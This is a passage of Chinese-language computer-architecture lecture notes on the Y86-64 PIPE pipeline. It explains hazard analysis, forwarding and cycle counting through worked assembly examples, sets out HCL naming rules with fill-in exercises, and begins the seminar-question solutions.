| 重排序缓冲（ROB） | 无 | 约 512 项（记录在飞指令，保证按序提交） |
| 寄存器重命名 | 无 | 有：把 16 个架构寄存器映射到几百个物理寄存器 |
| 分支预测 | 总是猜跳转，约 60% 正确 | 动态预测，准确率 > 95% |
| ret | 不预测，停 3 拍 | 返回地址栈（RSB）预测 |
| 指令编码 | Y86-64 定长、规则 | x86 变长，译码时拆成 μop |
| 数据存储器延迟 | 1 个周期 | L1 命中约 4～5 周期，缺失数十到数百周期 |
| 冒险处理 | 转发 + 加载互锁 + 冲刷 | 同一套思路，外加重命名、ROB、多套执行单元 |
为什么现代 CPU 要变得这么复杂？ 因为按序五级流水线有几条绕不过去的上限。第一，CPI 的下限是 1：每周期最多完成一条指令，再优化也到不了 0.x。第二，一条慢指令会卡住整条流水线：缓存缺失要几十个周期，按序流水线只能全体等着，而乱序核可以先去做别的指令。第三，流水线越深、越宽，冒险的代价越大：一条误预测在 5 级机器上浪费 2 个周期，在 20 级机器上可能浪费 15～20 个周期，所以必须用高准确率的预测器来抵偿。第四，功耗与频率：Pentium 4 的 31 级流水线曾是“更深的流水线”的极端实验，频率上去了，功耗和每周期效率却失控，这条路线在 2000 年代中期被放弃（课件 p.11 的表把 Prescott 与 Skylake 并排放，正是这个对照）。
乱序执行要重新面对 11.14 节的三条原则。 一旦允许指令在窗口内重排，WAR 和 WAW 就重新出现了：后一条指令可能先写，前一条可能后读。现代处理器用寄存器重命名解决它——把每个架构寄存器映射到一组物理寄存器，每次写都分配一个新的物理寄存器，于是“写同一个 %rax”变成“写不同的物理寄存器”，WAR/WAW 自然消失；再用 ROB 保证提交（commit）严格按程序顺序进行，结果与按序执行完全一致。这恰好反过来印证了 11.14 节的结论：PIPE 之所以不需要这些机制，是因为它“从不超车”；一旦超车，就必须用重命名和 ROB 把顺序语义补回来。
图 17 乱序超标量核的简化结构（对照图 5 的 PIPE）：取指与分支预测 → 译码并重命名为物理寄存器 → 调度到多个执行单元 → 乱序执行 → ROB 按序提交
简单按序流水线并没有消失。 微控制器里大量使用 3 级流水线的 ARM Cortex-M3/M4、2 级流水线的 Cortex-M0/M0+，教学用的 RISC-V 五级实现，都是本讲这套结构的直接后代——它们不追求最高性能，而追求小面积、低功耗和确定的最坏执行时间（实时系统很在意这个）。所以更准确的说法不是“现代 CPU 不这么设计”，而是：PIPE 是高性能处理器的内核骨架，只是外面套了乱序、多发射、深流水和存储层次。
常见问题：既然乱序更快，为什么课程先讲按序的 PIPE？
因为按序流水线把所有核心问题用最少的机制摆了出来：转发、暂停、冲刷、异常、组合情况，一个都不少，却不需要 ROB、重命名、调度器。先理解“按序机器怎么会错、怎么修”，再学乱序，才不会把“为什么需要重命名”“为什么要有 ROB”当成天上掉下来的设计。这也是教材第 4 章到第 5 章的顺序：先把 PIPE 做对，再讨论怎样让它更快。
11.17 专题：怎样分析一段程序在 PIPE 上的冒险与处理#
研讨题、作业和考试里最常见的一类题目是：给出一段 Y86-64 程序，问它在 PIPE 上执行时哪里有冒险、每处冒险怎样解决（从哪一级转发、要不要暂停、注入几个气泡）、某一周期各级分别是哪条指令，以及一共要多少个周期。这类题目看起来要逐周期地“跑”一遍流水线，其实有一套固定的分析步骤：先列出每条指令读写哪些寄存器，再找出所有写后读相关并量出它们的“距离”，然后找控制冒险，最后用一个公式数周期。本节先把四个步骤讲清楚，再用两段程序完整地演示一遍；两段程序的每一个结论都由模拟器实际运行核对过。
第一步：列出每条指令读、写哪些寄存器#
数据冒险只看两件事：消费者在译码级读哪些寄存器（d_srcA、d_srcB），生产者把结果写进哪些寄存器、这个结果在哪一级产生（dstE 的值 valE 在执行级由 ALU 算出，dstM 的值 valM 在访存级从内存读出）。表 30 把 Y86-64 的全部指令列在一起，分析任何程序之前，先对照这张表在每条指令旁边标出它的读、写寄存器。
表 30 各指令在译码级读的寄存器与写回的寄存器（教材图 4.18–4.21、4.5.3）
| 指令 | 读（srcA、srcB） | 写：dstE（值在 E 级产生） / dstM（值在 M 级产生） | 备注 |
|---|---|---|---|
| irmovq V, rB | 无 | dstE = rB | 只写不读 |
| rrmovq rA, rB | srcA = rA | dstE = rB | — |
| cmovXX rA, rB | srcA = rA | dstE = rB，条件不成立时 e_dstE = RNONE | 条件在执行级才知道 |
| OPq rA, rB | srcA = rA，srcB = rB | dstE = rB | 同时设置条件码（E 级） |
| rmmovq rA, D(rB) | srcA = rA（要存的数），srcB = rB（基址） | 无 | — |
| mrmovq D(rB), rA | srcB = rB | dstM = rA | 加载指令 |
| pushq rA | srcA = rA，srcB = %rsp | dstE = %rsp | 新的 %rsp 在 E 级算出 |
| popq rA | srcA = srcB = %rsp | dstE = %rsp，dstM = rA | 加载指令（rA 的值来自内存） |
| call Dest | srcB = %rsp | dstE = %rsp | valA 装的是 valP，不读寄存器 |
| ret | srcA = srcB = %rsp | dstE = %rsp | 返回地址 valM 在 M 级读出 |
| jXX Dest | 无（读条件码） | 无 | valA 装的是 valP |
| nop、halt | 无 | 无 | — |
有两处容易漏看。一是 pushq、popq、call、ret 都隐式地读写 %rsp，程序文本里看不到 %rsp 也要把它算上。二是条件码：OPq 在执行级写、cmovXX 在执行级读、jXX 在执行级判定，读者永远比写者晚至少一个阶段到达执行级，所以条件码的相关从来不构成冒险（11.14 节），分析时不用管。
第二步：找出每对写后读相关，量出它们的距离#
对每条指令要读的每个寄存器，往前找最近一条写这个寄存器的指令（更早的写入已被覆盖，不必再看），就得到一对“生产者—消费者”。两者在程序执行顺序中相隔的指令条数记为距离 k：紧挨着是 k = 1，中间隔一条是 k = 2，依此类推；中间若被注入了气泡，每个气泡也算一条。PIPE 处理这对相关的方式只取决于 k 和生产者的类型（表 31）：消费者在译码级时，生产者恰好在第 k 个后续阶段，值就从那一级转发过来。
表 31 距离 k 与 PIPE 的处理方式（消费者在译码级时，生产者所在的阶段与转发来源）
| 距离 k | 生产者所在阶段 | 生产者写 dstE（ALU 类：irmovq、rrmovq、cmovXX、OPq、pushq/popq/call/ret 的 %rsp） | 生产者写 dstM（加载：mrmovq、popq 的 rA） |
|---|---|---|---|
| 1 | E | 转发 e_valE，不停顿 | 加载/使用冒险：停 1 拍（E 注入 1 个气泡），然后 k 变成 2 |
| 2 | M | 转发 M_valE | 转发 m_valM |
| 3 | W | 转发 W_valE | 转发 W_valM |
| ≥ 4 | 已写回 | 直接读寄存器文件 | 直接读寄存器文件 |
这张表就是 11.6、11.7 两节的全部结论：五个转发来源对应 k = 1、2、3 的五种情况（加载类在 k = 1 时还没有值），唯一需要停顿的是“加载指令后紧跟着使用它的结果”。还有三个特例要单独记住：
- 条件传送不成立：cmovXX 在执行级发现条件不成立时把 e_dstE 改成 RNONE，于是它“不算”生产者，消费者要继续往前找更早的写者，或者读寄存器文件里的旧值（11.6 节为什么用 e_dstE 而不是 E_dstE）。但如果 cmovXX 自己是消费者、紧跟在加载之后，照样要停 1 拍——加载/使用检测在译码级进行，那时还不知道条件成不成立。
- 把刚加载的值存回内存：mrmovq 之后紧跟 rmmovq 或 pushq 存这个值，按本讲的 PIPE 仍然要停 1 拍，因为检测只看 d_srcA；作业 4.57A 的“加载转发”就是专门消除这种停顿的（第三部分）。
- popq 同时写两个寄存器：%rsp 的新值在执行级算出（按 ALU 类处理），rA 的值来自内存（按加载类处理）；popq %rsp 时两个写端口写同一个寄存器，M 口优先（第 10 讲 10.7 节）。
第三步：找控制冒险#
控制冒险只有两种来源（11.8、11.9 节）：条件跳转 jXX 总是预测“跳转”，若实际不跳转，在它到达执行级时发现，取消已取入的两条指令，代价是 2 个气泡；无条件的 jmp 和 call 总能预测对，没有代价。ret 一进入译码级，取指就停住，直到它走到写回级，代价是 3 个气泡。如果一个加载/使用冒险与 ret 同时发生，或者一条预测错误的 jXX 后面紧跟着 ret，就是 11.12 节的组合 B 与组合 A，按那里的结论处理（组合 A 只付预测错误的 2 个气泡，组合 B 先停 1 拍再进入 ret 的处理）。
第四步：数周期#
每条指令在流水线里占 5 个阶段，第一条指令要 5 个周期才走完，之后每个周期完成一条，每个气泡再多占一个周期。所以
总周期数 = 实际执行的指令条数（含 halt）+ 4 + 气泡数
气泡数 = 加载/使用次数 × 1 + 预测错误次数 × 2 + ret 次数 × 3
CPI ≈ (指令条数 + 气泡数) / 指令条数 （11.13 节，忽略开头的 4 个周期）“实际执行的指令条数”要按程序的真实走向数：循环要乘以次数，跳转跳过的指令不算，被取消的错误路径上的指令也不算。
例 1：数组求和——每轮一个加载/使用#
下面是教材图 4.7 中 sum 函数的简化版：main 把 4 个元素的数组地址和长度传给 sum，sum 用一个 mrmovq 读出元素、加到 %rax 上。
# demo-sum.ys（节选）
0x000: irmovq stack,%rsp
0x00a: irmovq array,%rdi # 数组 {0x1, 0x20, 0x300, 0x4000}
0x014: irmovq $4,%rsi
0x01e: call sum
0x027: halt
0x048: sum: irmovq $8,%r8
0x052: irmovq $1,%r9
0x05c: xorq %rax,%rax
0x05e: andq %rsi,%rsi
0x060: jmp test
0x069: loop: mrmovq 0(%rdi),%r10
0x073: addq %r10,%rax
0x075: addq %r8,%rdi
0x077: subq %r9,%rsi
0x079: test: jne loop
0x082: ret先按第一、二步找出循环体里的数据相关：根据表 30 标出每条指令的读写寄存器后，循环体中的写后读相关只有四对（表 32）。
表 32 demo-sum 循环体中的写后读相关（第二轮起；模拟器核对）
| 寄存器 | 生产者 → 消费者 | 距离 | PIPE 的处理 |
|---|---|---|---|
| %r10 | mrmovq 0(%rdi),%r10 → addq %r10,%rax | 1（加载） | 加载/使用：addq 停 1 拍，之后从 m_valM 拿到值 |
| %rdi | addq %r8,%rdi → 下一轮的 mrmovq 0(%rdi),%r10 | 3 | 转发 W_valE（模拟器：第 18、24、30 周期） |
| %rsi | subq %r9,%rsi → 下一轮的 subq | 6 | 已写回，读寄存器文件 |
| %rax | addq %r10,%rax → 下一轮的 addq | 6（中间含 1 个气泡） | 已写回，读寄存器文件 |
subq 与紧跟其后的 jne 之间是条件码相关，不构成冒险；%r8、%r9 是循环外写好的常数，循环里只读不写。所以每一轮循环是 5 条指令加 1 个气泡，共 6 个周期。
数据相关之外，第三步要看控制冒险：jmp test 是无条件跳转，没有代价；call sum 也没有代价。jne loop 一共执行 5 次：前 4 次跳转（预测对），最后一次 %rsi 减到 0、不跳转，预测错误，取消已经取入的 mrmovq 和 addq，付出 2 个气泡。sum 末尾的 ret 付出 3 个气泡。
有了这两方面的结果，第四步就可以数周期了。实际执行的指令：main 5 条，sum 开头 5 条，jne 5 次，循环体 4 × 4 = 16 条，ret 1 条，共 32 条。气泡：加载/使用 4 次 × 1 + 预测错误 1 次 × 2 + ret 1 次 × 3 = 9 个。总周期 = 32 + 4 + 9 = 45，模拟器运行结果相同；CPI ≈ (32 + 9) / 32 ≈ 1.28。图 18 是第 29～45 周期的流水线图，三种气泡都在里面。
图 18 demo-sum 第 29～45 周期的流水线图（模拟器运行结果）：① 最后一轮的加载/使用气泡；② 最后一次 jne 不跳转，已取入的 mrmovq、addq 被气泡取代（灰色格）；③ ret 期间取指停 3 拍，重复取 0x083 并换成气泡
这些气泡能不能去掉？办法是调整指令次序。加载/使用之所以要停，是因为 addq %r10,%rax 紧跟在 mrmovq 后面。把与它们都无关的 addq %r8,%rdi 挪到两者之间（demo-sum2.ys）：
loop: mrmovq 0(%rdi),%r10
addq %r8,%rdi # 挪到这里：mrmovq 已经用完旧的 %rdi
addq %r10,%rax # 与 mrmovq 的距离变成 2，从 m_valM 转发，不必停
subq %r9,%rsi挪动之后结果不变（mrmovq 在 addq %r8,%rdi 之前已经用旧的 %rdi 算好了地址），%r10 的距离变成 2，改由 m_valM 转发；%rdi 到下一轮 mrmovq 的距离变成 4，直接读寄存器文件。每轮省 1 个气泡，总周期变为 32 + 4 + 5 = 41（模拟器同样是 41），CPI ≈ 1.16。这就是编译器的指令调度：硬件已经保证了正确性，编译器再通过重排无关指令，把加载和使用拉开距离。
例 2：一段“陷阱”很多的程序#
下面这段程序把几种情况都凑在了一起：普通转发、加载/使用、隐式的 %rsp、条件不成立的条件传送。
# demo-mix.ys
0x000: irmovq $0x100,%rsp
0x00a: irmovq $0x80,%rbx
0x014: irmovq $5,%rax
0x01e: rmmovq %rax,0(%rbx)
0x028: mrmovq 0(%rbx),%rcx
0x032: addq %rcx,%rax
0x034: pushq %rax
0x036: popq %rdx
0x038: cmove %rdx,%rsi
0x03a: rrmovq %rsi,%rdi
0x03c: halt按四个步骤逐条分析，结果列在表 33 中，最后一列是模拟器给出的实际转发来源，与分析完全一致；流水线图见图 19。
表 33 demo-mix 逐条分析（“周期”指该指令处在译码级、真正读到操作数的那一周期；模拟器核对）
| 指令（周期） | 读的寄存器 | 最近的生产者 | 距离 | 处理 / 实际来源 |
|---|---|---|---|---|
| rmmovq %rax,0(%rbx)（5） | srcA = %rax | irmovq $5,%rax | 1 | valA ← e_valE = 5 |
| srcB = %rbx | irmovq $0x80,%rbx | 2 | valB ← M_valE = 0x80 | |
| mrmovq 0(%rbx),%rcx（6） | srcB = %rbx | irmovq $0x80,%rbx | 3 | valB ← W_valE = 0x80 |
| addq %rcx,%rax（7 停，8 读） | srcA = %rcx | mrmovq（加载） | 1 | 加载/使用：第 7 周期检测到，停 1 拍；第 8 周期 valA ← m_valM = 5 |
| srcB = %rax | irmovq $5,%rax | 3 → 停顿后 4 | 第 8 周期已写回，读寄存器文件 = 5 | |
| pushq %rax（9） | srcA = %rax | addq %rcx,%rax | 1 | valA ← e_valE = 0xa |
| srcB = %rsp | irmovq $0x100,%rsp | 很远 | 读寄存器文件 = 0x100 | |
| popq %rdx（10） | srcA = srcB = %rsp | pushq（隐式写 %rsp） | 1 | 两个都 ← e_valE = 0xf8（pushq 算出的新栈顶） |
| cmove %rdx,%rsi（11 停，12 读） | srcA = %rdx | popq（加载 %rdx） | 1 | 加载/使用：停 1 拍；第 12 周期 valA ← m_valM = 0xa |
| rrmovq %rsi,%rdi（13） | srcA = %rsi | cmove——但条件不成立 | （1） | cmove 的 e_dstE = RNONE，不转发；读寄存器文件里的旧值 0 |
图 19 demo-mix 的流水线图（模拟器运行结果）：两次加载/使用各注入 1 个气泡，其余相关全部由转发解决
这段程序有四个值得留意的地方。第一，一条指令的两个操作数可以来自不同的转发来源：rmmovq 的 valA 来自执行级、valB 来自访存级，译码级的两个选择器各自独立工作。第二，停顿会改变后面的距离：addq 的 %rax 本来距离 3、应从 W_valE 转发，但它被加载/使用按住了一拍，第 8 周期再读时 irmovq 已经写回，于是改为读寄存器文件；所以分析停顿之后的指令时，要以“真正读操作数的那一周期”为准。第三，隐式的 %rsp：程序文本里 popq 与 pushq 之间看不出相关，实际上 pushq 在执行级算出的新栈顶 0xf8 被转发给了 popq 的两个源操作数。第四，条件传送的两面：cmove 作为消费者，照样因为紧跟 popq 而停了 1 拍（检测时条件还不知道）；它作为生产者时，由于 addq 算出 0xa ≠ 0、ZF = 0、条件不成立，e_dstE 变成 RNONE，后面的 rrmovq 只能读寄存器文件里的旧值 0，最终 %rdi = 0。
最后数周期：执行 11 条指令，2 次加载/使用，没有跳转和 ret，总周期 = 11 + 4 + 2 = 17，与模拟器一致。
★ 分析步骤速记
① 对照表 30 标出每条指令读、写的寄存器，别漏了 pushq/popq/call/ret 隐式的 %rsp；② 对每个读，往前找最近的写者，量距离 k，按表 31 定处理方式，加载类 k = 1 才停，条件不成立的 cmovXX 不算写者；③ 找出不跳转的 jXX（2 个气泡）和 ret（3 个气泡），留意 11.12 节的两种组合；④ 总周期 = 指令条数 + 4 + 气泡数。题目若问“第 n 周期的转发来源”，就画出到第 n 周期为止的流水线图，看那一列里各级是哪条指令。
实验工具的 PIPE 视图可以用来核对这类分析：点流水线图的任意一列，放大框就会显示这一周期五个阶段各是哪条指令、每个操作数从哪里转发而来；工具栏切换到“只暂停，不转发”“PIPE−”“不处理 ret”等设计，就能复现本讲“不处理会怎样”的各个例子。自己写一段程序，先按上面的四个步骤手算，再用模拟器核对，是练习这类题目最快的办法。
11.18 专题：填写 PIPE 的 HCL——前缀用大写还是小写#
11.2 节给出了命名规则：大写前缀 X_Field 是流水线寄存器 X 中锁存的字段，小写前缀 x_Field 是阶段 x 的组合逻辑在本周期算出的信号。规则本身不难记，难的是填空时判断某一处该用哪一个：转发逻辑里为什么是 e_valE 却是 M_valE，为什么是 m_valM 却是 M_dstM，控制逻辑里为什么是 E_dstM 却是 d_srcA。这些选择都可以从同一个问题推出来：在这个周期里，我要用的这个值此刻在哪里？
一个时钟周期里，值只可能在两种地方#
回想流水线寄存器的工作方式（11.15 节）。时钟上升沿到来时，每个流水线寄存器把前一级送来的值锁存下来；在这之后的整个周期里，它的输出保持不变，五个阶段的组合逻辑各自从自己前面的寄存器里取出输入，算出结果，送往下一个寄存器，等下一个上升沿再锁存。所以在一个周期的中间，任何一个值都只可能处在两种状态之一：
一是已经锁存在某个流水线寄存器里，从周期开始就稳定不变。它的名字是这个寄存器的大写字母加字段名，比如 M_valE：上一条指令在上个周期的执行阶段算出 valE，上升沿时锁进了 M 寄存器。
二是正在被某一级的组合逻辑计算，周期结束时才会被下一个寄存器锁存。它的名字是这一级的小写字母加字段名，比如 e_valE：E 级的 ALU 在这个周期里正在算的结果，还没有进任何寄存器。
于是判断大小写只需要两步。第一步，确定这个值属于流水线中的哪一条指令，那条指令此刻处在哪一级。第二步，问这个值在那一级是“输入”还是“输出”：如果这个值在那条指令进入这一级之前就已经算好了，它就在这一级前面的寄存器里，用大写；如果这个值正是这一级要算的东西，它还在组合逻辑里，用小写。
第一类：一级的逻辑使用本级指令的字段——大写#
每一级的组合逻辑都是为“此刻在这一级的那条指令”工作的，而这条指令的所有已知信息都在这一级前面的流水线寄存器里。所以一级的逻辑在使用本级指令的字段时，用的是同名的大写前缀：
# 译码级读 D
word d_srcA = [ D_icode in { IRRMOVQ, IRMMOVQ, IOPQ, IPUSHQ } : D_rA; ... ];
# 执行级读 E
word aluA = [ E_icode in { IRRMOVQ, IOPQ } : E_valA; ... ];
# 访存级读 M
word mem_addr = [ M_icode in { IRMMOVQ, IPUSHQ, ICALL, IMRMOVQ } : M_valE; ... ];
# 写回级读 W
word Stat = [ W_stat == SBUB : SAOK; 1 : W_stat ];这是 HCL 里出现得最多的情形，表 34 列出了每个流水线寄存器有哪些字段。一个大写的名字合法，前提是那个寄存器里真有这个字段。例如 D 寄存器中没有 srcA（srcA 是译码级才算出来的），所以不存在 D_srcA；E 寄存器中没有 valE（valE 是执行级才算出来的），所以不存在 E_valE；只有 M 寄存器有 Cnd，所以不存在 E_Cnd。填空时写出一个大写名字，先对照这张表看它是否存在，能排除很多错误。
表 34 PIPE 各流水线寄存器中的字段（教材图 4.52）
| 寄存器 | 字段 | 不存在的常见误写 |
|---|---|---|
| F | predPC | F_icode、F_pc |
| D | stat、icode、ifun、rA、rB、valC、valP | D_srcA、D_dstE、D_valA |
| E | stat、icode、ifun、valC、valA、valB、dstE、dstM、srcA、srcB | E_valE、E_Cnd、E_rA |
| M | stat、icode、Cnd、valE、valA、dstE、dstM | M_valM、M_valB、M_srcA |
| W | stat、icode、valE、valM、dstE、dstM | W_valA、W_Cnd |
取指级是唯一的例外。F 寄存器里只有 predPC，正在取的这条指令的 icode、ifun、valC、valP 都是取指级从指令内存中读出、算出的，所以取指级的逻辑一律用小写：need_regids = f_icode in {...}、f_stat 的条件 f_icode == IHALT、f_predPC = [f_icode in { IJXX, ICALL } : f_valC; 1 : f_valP]。
第二类：一级的逻辑使用本级刚算出的结果——小写#
一级的组合逻辑内部也有先后：先算出的信号会被后面的逻辑使用。这些信号都还没有锁存，用本级的小写前缀。译码级先由 D_icode、D_rA 算出 d_srcA，再用 d_srcA 去读寄存器文件、去和各级的目的寄存器比较，所以转发逻辑里写的是 d_srcA == e_dstE，读出的值叫 d_rvalA，最后选出的结果叫 d_valA。执行级先由 ALU 和条件码算出 e_Cnd，再用它决定 cmovXX 是否真的写寄存器：
word e_dstE = [
E_icode == IRRMOVQ && !e_Cnd : RNONE; # 本级刚算出的条件：小写
1 : E_dstE; # 本级指令原来的目的寄存器：大写
];这一行把两类写法都用上了：E_dstE 是译码时就定下、锁在 E 寄存器里的目的寄存器，e_dstE 是执行级考虑了条件之后“真正要写的”目的寄存器。一个字段只有在某一级被改造过，才会有这一级的小写版本：dstE 在执行级可能被改成 RNONE，所以有 e_dstE；dstM 从译码到写回从来不变，所以转发逻辑只用 M_dstM、W_dstM，不存在需要单独写出的 e_dstM、m_dstM。
第三类：使用别的级的值——看它是锁存的还是正在算的#
转发和流水线控制都要“越级”使用别的指令的值，这时用第一步、第二步的问题判断。以 d_valA 为例（课件 p.40）：
word d_valA = [
D_icode in { ICALL, IJXX } : D_valP; # 本级指令自己的字段：大写
d_srcA == e_dstE : e_valE; # E 级的指令：ALU 正在算 valE
d_srcA == M_dstM : m_valM; # M 级的指令：内存正在读 valM
d_srcA == M_dstE : M_valE; # M 级的指令：valE 上个周期已锁进 M
d_srcA == W_dstM : W_valM; # W 级的指令：都已锁进 W
d_srcA == W_dstE : W_valE;
1 : d_rvalA; # 本级刚从寄存器文件读出：小写
];逐行看。E 级的那条指令，它的 valE 正是执行级在这个周期要算的东西，还没有锁存，只能写 e_valE；它的目的寄存器可能被 cmovXX 改掉，要用改造之后的 e_dstE。M 级的那条指令，它的 valE 是上个周期在执行级算好的，已经在 M 寄存器里，写 M_valE；它的 valM 正是访存级这个周期从内存读出的东西，写 m_valM；它的 dstE、dstM 都已锁存，写 M_dstE、M_dstM。W 级的指令什么都不算了，所有字段都在 W 寄存器里，全部大写。
把每个转发来源的“值”和它配对的“目的寄存器”放在一起看，规律更清楚：(e_dstE, e_valE)、(M_dstM, m_valM)、(M_dstE, M_valE)、(W_dstM, W_valM)、(W_dstE, W_valE)。只有 m_valM 一处是“寄存器号大写、值小写”，原因是 dstM 在译码时就确定了，而 valM 要到访存级才读出来。
流水线控制逻辑是同样的道理。加载/使用冒险的条件 E_icode in { IMRMOVQ, IPOPQ } && E_dstM in { d_srcA, d_srcB } 中，加载指令在 E 级，它的 icode 和 dstM 都锁在 E 寄存器里，用大写；被阻塞的那条指令在 D 级，它要读的寄存器是译码级正在算的，用小写。误预测的检测 E_icode == IJXX && !e_Cnd 中，跳转指令在 E 级，跳不跳是执行级这个周期才算出来的，用 e_Cnd。可是到了取指级选 PC 时，M_icode == IJXX && !M_Cnd : M_valA 用的是大写的 M_Cnd：这时已经是下一个周期，跳转指令走到了 M 级，它的条件在上升沿时被锁进了 M 寄存器。同一个 Cnd，在 E 级时是 e_Cnd，到 M 级后是 M_Cnd，用哪一个取决于这条指令此刻在哪一级。
异常相关的逻辑也一样：set_cc = E_icode == IOPQ && !m_stat in { SADR, SINS, SHLT } && !W_stat in { SADR, SINS, SHLT }。M 级的指令正在访存，它的状态要把这一次访存是否出错（dmem_error）算进去，这是访存级这个周期的输出 m_stat，而不是锁存的 M_stat；W 级的指令状态已经确定，用 W_stat。
★ 要点：判断前缀的三条规则
第一，一级的逻辑使用本级指令的字段，用本级的大写前缀（D_icode、E_valC、M_valE、W_stat）；取指级例外，F 寄存器只有 predPC，正在取的指令的信息全是 f_ 开头。第二，一级的逻辑使用本级刚算出的结果，用本级的小写前缀（d_srcA、d_rvalA、e_Cnd）。第三，使用别的级的指令的值时，问“这个值是那一级这个周期要算的吗”：是，就用那一级的小写（e_valE、e_dstE、e_Cnd、m_valM、m_stat）；不是，它已经锁在那一级前面的寄存器里，用大写（M_valE、M_dstM、E_dstM、W_valM、M_Cnd）。写完之后对照表 34，确认每个大写名字对应的字段确实存在。
用这三条规则做两道题#
2024 年期中第四题（考试冲刺讲义 5.2 节）要求新加一条从访存级到执行级的转发通路，让加载指令之后紧跟的 pushq 或 rmmovq 不必停顿：pushq、rmmovq 的 valA 是要写入内存的数据，到访存级才用。答案是：
word e_valA = [
E_icode in { IPUSHQ, IRMMOVQ } && E_srcA == M_dstM : m_valM;
1 : E_valA;
];逐个检查前缀。这段逻辑属于执行级，pushq 此刻在 E 级，它的 icode、srcA、valA 都在 E 寄存器里，用大写；E 寄存器有 srcA 字段（表 34），所以 E_srcA 合法，而 d_srcA 不对，那是 D 级另一条指令的源寄存器。加载指令此刻在 M 级，它的目的寄存器早已锁存，写 M_dstM；它读出的数据是访存级这个周期的输出，写 m_valM。
再看一个常见的错误。有人把 d_valA 的第二行写成 d_srcA == E_dstE : e_valE，结果在条件传送不成立时出错：cmovXX 的 E_dstE 仍是 rB，但它并不写这个寄存器，转发它的 e_valE 会把一个不该出现的值送给下一条指令。这正是 e_dstE 存在的理由（11.6 节）。
表 35 是几处常考的空，答案按上面的规则逐一得出，都与教材的 pipe-std.hcl 一致。
表 35 HCL 填空练习
| 填空 | 答案 | 理由 |
|---|---|---|
f_stat 中 ____ == IHALT : SHLT | f_icode | 取指级正在取的指令，F 中没有 icode |
aluB = [ ____ in { IRMMOVQ, IMRMOVQ, IOPQ, ... } : E_valB; ...] | E_icode | 执行级使用本级指令的字段 |
mem_addr 中 M_icode in { IPOPQ, IRET } : ____ | M_valA | popq、ret 用旧的 %rsp 作地址，它经 valA 传到 M |
d_dstM = [ D_icode in { IMRMOVQ, IPOPQ } : ____; 1 : RNONE ] | D_rA | 译码级使用本级指令的字段 |
加载/使用：E_icode in { IMRMOVQ, IPOPQ } && ____ in { d_srcA, d_srcB } | E_dstM | 加载指令在 E 级，dstM 已锁存 |
f_pc 中 M_icode == IJXX && !____ : M_valA | M_Cnd | 跳转指令已到 M 级，条件已锁存 |
E_bubble 中误预测的条件 E_icode == IJXX && !____ | e_Cnd | 跳转指令在 E 级，条件本周期才算出 |
W_stall = ____ in { SADR, SINS, SHLT } | W_stat | 异常指令在 W 级，状态已锁存 |
set_cc 中 !____ in { SADR, SINS, SHLT }（访存级的状态） | m_stat | 要包括本周期访存是否出错 |
ret 的检测：IRET in { D_icode, E_icode, ____ } | M_icode | 三级各自的指令字段 |
11.19 本讲小结#
第 11 讲从“SEQ 太慢”出发，造出了一台五级流水线处理器。为了在流水线里保住 ISA 语义，我们做了这些事：把 PC 计算挪到周期开头（SEQ+），在阶段之间插入流水线寄存器（PIPE−），用预测解决“下一个 PC 不知道”的问题；针对寄存器写后读，依次试过 nop、暂停、转发，最终只保留“加载/使用”这一处停一拍；针对控制相关，用“总是猜跳转 + 冲刷”和“ret 停三拍”；补上教材的异常处理；再把所有特殊情况及其组合收拢成一套控制逻辑，并算清 CPI 的代价。
更重要的是几条可以带走的设计原理：阶段与数据通路尽量复用 SEQ 的成果；一条指令的全部信息锁在同一个流水线寄存器里随它流动；转发优先于停顿，只有转发救不了的情形才停；控制相关用“猜 + 取消”，取消点选在副作用产生之前；特殊情况必须系统分析其组合；状态码随指令流动。 而 11.14–11.16 节把视角拉远：PIPE 之所以只被“寄存器写后读”这一种冒险困扰，是因为它按序流动、状态单点写、每级一套硬件；现代处理器之所以看起来面目全非，是因为它主动放弃了“按序”这个前提，再用重命名和 ROB 把顺序语义买回来。
PIPE 的局限也正是第 12 讲的起点：它假定存储器“一个周期就能访问完”，而真实的存储系统有缓存、有缺失、有几十到几百个周期的延迟。一旦取指或访存可能停很多拍，流水线控制逻辑与性能分析都要重新做一遍——那是下一讲的主题。
第二部分 小班研讨题解答（第 11 讲）#
研讨题中的页码是 2025 版课件的页码，对应的 2026 版页码为：第 4、5 页 → p.8（2026 版把两幅图合并成一页的上下两半）；第 7 页 → p.7；第 8 页 → p.9；第 9 页 → p.10；第 12 页 → 2026 版已删去，相关概念见 p.19–p.20 与教材 §4.5.4；第 15 页 → p.16；第 16 页 → 2026 版已删去（五级职责见 p.13、p.16、p.17 与教材 §4.5.2）；第 19 页 → p.18（2026 版只保留“预测 PC”和“寄存器更新”两条，另两条见 p.17、p.50–p.51、p.55–p.57）；第 20 页及后续几页 → p.47、p.17、p.50–p.51、p.59；第 23 页 → p.13；第 24～27 页 → p.20、p.22、p.23、p.24；第 28 页 → p.26（另见 p.27）；第 29 页及后续几页 → p.28～p.32；第 35 页及后续几页 → p.34～p.40；第 42 页及后续几页 → p.41～p.43；第 47 页及后续几页 → p.45～p.51；第 53 页及后续几页 → p.52～p.57；第 58 页及后续几页 → p.58～p.60（另见 p.61～p.66）；第 62 页及后续几页 → p.62～p.66。下面解答中的“课件 p.x”一律指 2026 版，题目引用仍按 2025 版；凡涉及周期数、寄存器值、内存值的结论，都由按 pipe-full.hcl 逐块编写的 PIPE 模拟器实际运行给出。为控制篇幅，第二部分不再重复第一部分已经完整给出的表、代码与控制逻辑，只保留结论并注明所在小节。
研讨题 1：流水级划分与数据相关基本概念#
1（1）比较课件第 4、5、8、9 页四幅图，对比单条指令延迟（Delay）、吞吐量（Throughput）、流水线寄存器用时占比，分析划分流水线要注意哪些因素。
这四幅图在 2026 版里是 p.8（上半 = 2025 p.4 的未流水线、下半 = 2025 p.5 的三级流水线）、p.9（不均匀划分）和 p.10（寄存器开销）三页，图 20 把四种划分画在一起：每一行是一条指令依次经过的各级，蓝色是组合逻辑，橙色是 20 ps 的流水线寄存器，斜线是快的那一级等待最慢一级的空闲时间。
图 20 四种划分方式的比较（课件 2025 p.4、p.5、p.8、p.9；2026 p.8–10）：(a) 不流水；(b) 三级均匀；(c) 三级不均匀，快的两级要空等最慢的一级；(d) 六级，寄存器开销占比明显上升
